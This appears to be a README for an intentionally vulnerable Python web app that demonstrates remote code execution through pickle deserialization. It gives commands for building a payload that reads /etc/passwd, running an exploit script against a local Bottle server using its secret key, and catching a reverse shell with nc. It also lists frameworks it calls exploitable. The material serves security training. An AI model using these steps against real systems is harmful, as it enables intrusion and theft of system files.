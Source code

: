 # vulnwebapp
Vulnerable Web Application Sample

===

# Python Web Vuln App

Remote code execution with pickle.  


### Code execution with pickle.

example
```
$ cd python
$ python create_pickle_payload.py "cat /etc/passwd" > getpasswd.pickle
$ python -c 'import pickle; pickle.load(open("getpasswd.pickle"))'

```

### Web Framework and pickle

```
$ cd python/bottle
$ python server.py
```

Launch a reverse shell on target server
```
$ cd python
$ python bottle_exploit.py http://localhost:8000/ ThisIsSecretKey
```

```
$ nc localhost 12345

```

You got shell!!

---

You can exploit this vulnerability in the following frameworks

* Bottle
* Werkzeug
* Flask
* Pylons
* Pyramid
* Django


